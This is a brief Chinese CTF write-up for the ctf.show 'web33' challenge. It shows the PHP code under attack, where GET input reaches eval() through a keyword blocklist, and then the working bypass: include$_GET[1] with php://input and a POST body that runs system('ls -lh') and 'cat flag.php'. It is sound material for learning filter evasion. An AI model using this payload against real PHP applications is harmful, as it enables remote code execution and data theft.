 # web33

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\"/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

除了空格以外，还拦截了以下字符

```plaintext
. ' ` ; ( " 
```

可以发现，相较于上一题，多了一个双引号，只需要改变GET传参的表达式即可

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET[1]?>&1=php://input

POST: <?php system("ls -lh"); ?>
```

![img](img/image_20250252-185215.png)

那么剩下的就简单了

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET[1]?>&1=php://input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250252-185247.png)
